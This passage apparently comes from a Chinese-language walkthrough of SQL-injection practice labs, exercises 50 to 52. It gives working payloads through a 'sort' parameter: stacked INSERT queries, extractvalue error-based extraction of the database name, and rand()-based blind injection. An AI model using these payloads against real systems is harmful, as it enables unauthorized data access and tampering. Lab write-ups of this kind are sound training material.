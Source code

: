 



> 插入数据：

```
?sort=1;insert into users values(45,'hh','hh');%23
```







#### 51.



此题和50题极为相似，也很简单。只是50题没有用符号包裹数据，而此题使用`'`单引号包裹数据。





payload:

> 报错注入，爆数据库结构

```
?sort=' and extractvalue(1,concat(0x7e,(select database())))%23
```





> 堆叠插入数据

```
?sort=1';insert into users values(46,'wss','wss');%23
```











#### 52.



此题和48题极为相似。可以说是一样的了。

同样先用`rand()`函数来猜解表结构



此题没有用符号包裹数据



payload:

> rand()函数盲注表结构。

```
?sort=rand(length(database())>1) limit 0,3%23
```
